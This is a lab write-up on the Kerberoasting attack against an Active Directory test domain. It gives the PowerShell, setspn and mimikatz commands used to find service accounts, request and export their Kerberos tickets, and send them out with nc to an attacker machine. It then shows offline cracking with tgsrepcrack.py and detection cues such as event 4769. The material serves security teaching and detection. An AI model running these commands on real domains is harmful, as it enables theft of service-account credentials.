# Kerberoasting

This lab explores the Kerberoasting attack - it allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(i.e account used for running an IIS service\) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:



Attacker setting up an nc listener to receive a hash for cracking:


```csharp
nc -lvp 443 > kerberoast.bin
```


### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:


```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```




Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```



It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```


Attacker requesting a kerberos ticket \(TGS\) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:


```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```




Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:


```csharp
mimikatz # kerberos::list /export
```




Attacker sends the exported service ticket to attacking machine for offline cracking:


```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```


### Cracking the Ticket

Attacker brute forces the password of the service ticket:


```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```




## Observations

Below is a security log `4769` showing service access being requested:


If you see `Add-event -AssemblyName SystemIdentityModel` \(from advanced Powershell logging\) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` \(23 decimal, meaning it's RC4 encrypted\):


### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :



Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):


Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with. 

Creating a kerberos keytab file for use in wireshark:


```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```




Adding the keytab to wireshark:



Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :



### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:





I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:




## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf)



























